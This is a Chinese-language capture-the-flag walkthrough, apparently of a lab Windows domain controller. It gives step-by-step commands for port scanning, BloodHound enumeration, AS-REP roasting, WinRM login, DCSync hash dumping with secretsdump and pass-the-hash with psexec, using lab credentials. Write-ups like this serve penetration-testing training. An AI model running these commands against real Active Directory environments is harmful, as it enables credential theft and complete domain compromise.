






## 端口扫描

通过masscan对目标10.10.10.30进行快速的端口扫描

 
从扫描结果看出，该服务器开启了多个AD相关端口，如88端口的kerberos服务和389端口的LDAP服务，这意味着这是一台域控服务器。另外，5985端口开放意味着该服务器开启了winrm服务。

## 收集域信息

通过上一台机器获取到的信息，已知域megacorp.local，用户名sandra，密码Password1234!，gc(全局编录服务器)pathfinder.megacorp.local，ns(dns服务器)10.10.10.30
通过bloodhound工具去枚举活动目录。

安装bloodhound-python:
pip install bloodhound

bloodhound-python -d megacorp.local -u sandra -p "Password1234!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30

 
安装neo4j:
apt install neo4j

安装bloodhound:
apt install bloodhound

开启neo4j:
neo4j start console

访问http://localhost:7474/browser，默认用户名neo4j，密码neo4j，会提示修改密码

Bloodhound –no-sandbox 登陆neo4j的数据库

将bloodhound-python跑出来的json文件拖进bloodhound，bloodhound会开始进行分析。在过滤条件选择Shortest paths to High value Targets 和 Find Principles with DCSync Rights
 

可以看到svc_bes用户拥有GetChangesAll的权限。这意味着该用户可以从域控复制数据，从而获取用户hash。

## 横向移动

发现svc_bes账号没有开启kerberos预授权，这意味存在AS-REP Roasting漏洞，通过impacket中的GetNPUsers脚本获取获取TGT票据，将票据存放到hash文件，用john爆破获取到svc_bes账号的明文密码Sheffield19
GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30

## 获取普通用户权限

安装evil-winrm:
gem install evil-winrm

通过winrm服务登陆svc_bes账号:
evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19
获取普通用户的flag

## 权限提升
 
因为svc_bes用户存在GetChangesAll权限，因此可以使用impacket中的secretdump脚本通过DCsync攻击去dump所有域用户的NTLM hash
secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30

我们获取到了域管理员的NTLM hash，因此可以使用psexec脚本通过PTH(哈希传递)攻击获取system权限
psexec.py megacorp.local/administrator@10.10.10.30 -hashes <NTML hash>:<NTLM hash>

## 整体思路

 
